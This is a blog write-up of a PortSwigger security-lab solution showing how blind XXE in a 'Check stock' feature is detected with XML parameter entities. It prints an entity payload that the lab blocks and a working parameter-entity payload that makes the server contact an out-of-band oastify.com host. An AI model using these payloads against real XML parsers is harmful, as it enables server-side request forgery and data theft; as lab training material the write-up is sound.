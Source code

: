 ```yaml
---
author: Nithissh S
pubDatetime: 2024-11-23T15:22:00Z
modDatetime: 2024-11-23T09:12:47.400Z
title: Exploiting blind XXE to exfiltrate data using a malicious external DTD
slug: xxe-portswigger-lab-6
featured: false
draft: false
tags:
  - BSCP
  - XXE
description:
  This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities. To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 
---
```


## Objective 

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

## Solution 

This lab also includes the XXE in check stock functionality but when I use regular entity based payload meaning I used the same payload of the previous lab 

```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://burpcollaborator.net"> ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Observing the response where it says `"Entities are not allowed for security reasons"` there is some kind of block out there 

![](../../assets/images/bscp/xxe/xxe-18.png)

But when we replace the `&xxe` entity with the actual `productId` which is `1` will reveal the stock count of the product but no external pingback to the collaborator 

![](../../assets/images/bscp/xxe/xxe-19.png)

Now in order to bypass we can use xml entity parameter, where we can able to reference it with in the DTD.. Firstly it's referenced in percent character before the entity name and referenced else where inside the DTD with `%xxe;` instead of `&xxe;` 

Just combining all together with the following payload 

```xml
<!DOCTYPE stockCheck [ <!ENTITY % xxe SYSTEM "http://bxcluruc7sgb3cwctx3lj8v9c0is6ju8.oastify.com"> %xxe; ]> 
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Sent the request with the above payload as `POST` body and shows the `XML error` in the response.. But, checking the collaborator we got the pingbacks from the server 

![](../../assets/images/bscp/xxe/xxe-20.png)

Since we managed to recieve the pingbacks... our objective is achieved and that solves the lab 

![](../../assets/images/bscp/xxe/xxe-21.png)